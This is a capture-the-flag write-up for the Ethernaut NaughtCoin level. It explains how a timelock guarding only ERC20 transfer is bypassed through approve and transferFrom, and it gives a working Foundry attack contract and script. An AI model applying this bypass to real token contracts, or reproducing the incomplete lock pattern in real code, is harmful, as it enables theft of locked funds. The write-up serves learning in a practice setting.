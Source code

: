 # Ethernaut Level 15 NaughtCoin

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```

We have to figure out a way to transfer out all our tokens to some other address. Function `transfer` has been locked by the modifier `lockTokens()` so we can't directly call `transfer` to other address. If we go back and see the father contract `ERC20.sol`, we can find out that there are actually two methods that can enable us transfer tokens: `transfer` and `transferFrom`. Maybe we can use `transferFrom` to avoid directly calling `transfer`. In function `transferFrom`:

```solidity
function transferFrom(address from, address to, uint256 value) public virtual returns (bool) {
        address spender = _msgSender();
        _spendAllowance(from, spender, value);
        _transfer(from, to, value);
        return true;
    }
```

We have to first call `_spendAllowance` to spend some allowance of the spender (`msg.sender`), and then call `_transfer`.

```solidity
function _spendAllowance(address owner, address spender, uint256 value) internal virtual {
        uint256 currentAllowance = allowance(owner, spender);
        if (currentAllowance < type(uint256).max) {
            if (currentAllowance < value) {
                revert ERC20InsufficientAllowance(spender, currentAllowance, value);
            }
            unchecked {
                _approve(owner, spender, currentAllowance - value, false);
            }
        }
    }
```

In function `_spendAllowance`, we basically reapprove the spender with the amount of `currentAllowance - value`. We can go to function `_approve` for more information:

```solidity
function _approve(address owner, address spender, uint256 value, bool emitEvent) internal virtual {
        if (owner == address(0)) {
            revert ERC20InvalidApprover(address(0));
        }
        if (spender == address(0)) {
            revert ERC20InvalidSpender(address(0));
        }
        _allowances[owner][spender] = value;
        if (emitEvent) {
            emit Approval(owner, spender, value);
        }
    }
```

In this internal function `_approve`, we let the owner to approve spender a certain amount of tokens. And the public version of it is just setting the owner to be the `msg.sender`:

```solidity
    function approve(address spender, uint256 value) public virtual returns (bool) {
        address owner = _msgSender();
        _approve(owner, spender, value);
        return true;
    }
```

So that is all for the logic part. We can first approve an attack contract some tokens from our EOA (owner), and then call `transferFrom` from the attack contract.

`NaughtCoinAttack.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {ERC20} from "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import {console} from "forge-std/console.sol";

contract NaughtCoinAttack {

    function attack(address naughtCoinAddress, uint256 amount) public {
        ERC20 naughtCoin = ERC20(naughtCoinAddress);
        console.log("Allowance set to:", naughtCoin.allowance(msg.sender, address(this)));
        naughtCoin.transferFrom(msg.sender, address(this), amount);
    }

}
```

`NaughtCoin.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {NaughtCoin} from "../src/NaughtCoin.sol";
import {NaughtCoinAttack} from "../src/NaughtCoinAttack.sol";

contract NaughtCoinScript is Script {
    NaughtCoin naughtCoin = NaughtCoin(0xXXXXXXXXXXXXXXX);
    NaughtCoinAttack naughtCoinAttack;
    uint256 amount = 1000000 * (10 ** uint256(naughtCoin.decimals()));

    function run() external {
        vm.startBroadcast();
        naughtCoinAttack = new NaughtCoinAttack();
        naughtCoin.approve(address(naughtCoinAttack), amount);
        naughtCoinAttack.attack(address(naughtCoin), amount);
        vm.stopBroadcast();
        console.log("NaughtCoin balance of attacker:", naughtCoin.balanceOf(address(naughtCoinAttack)));
    }
}
```


